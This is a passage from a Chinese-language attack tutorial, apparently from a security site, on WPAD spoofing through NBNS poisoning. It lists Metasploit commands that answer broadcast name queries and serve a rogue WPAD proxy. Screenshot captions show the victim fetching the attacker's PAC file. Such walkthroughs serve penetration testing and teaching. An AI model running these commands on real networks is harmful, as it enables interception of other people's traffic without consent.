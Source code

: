 **1、监听NBNS查询**
    
    
    use auxiliary/spoof/nbns/nbns_response
    set regex WPAD
    set spoofip 192.168.16.245
    run
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/201512071426136970757.png)

**2、设置WPAD服务器**
    
    
    use auxiliary/server/wpad
    set proxy 192.168.16.245
    run
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/201512071423023060667.png)

**3、被攻击用户发起查询**

构造广播NBNS查询

需要使当前dbcp和dns服务器均无法提供的PAC文件位置

**4、响应被攻击机用户的广播NBNS查询**

如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/201512071423045325277.png)

攻击主机响应广播NBNS查询并指定PAC文件位置

被攻击主机访问指定的PAC位置请求下载

wireshark抓包如图

广播NBNS查询包，如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/201512071423054881287.png)

NBNS查询响应包，如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/201512071423076609495.png)

被攻击主机请求PAC文件位置，如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/2015120714230974523105.png)

攻击主机回复PAC文件信息，如图

![这里写图片描述](http://static.wooyun.org//drops/20151207/20151207142311563731110.png)

> Tips：
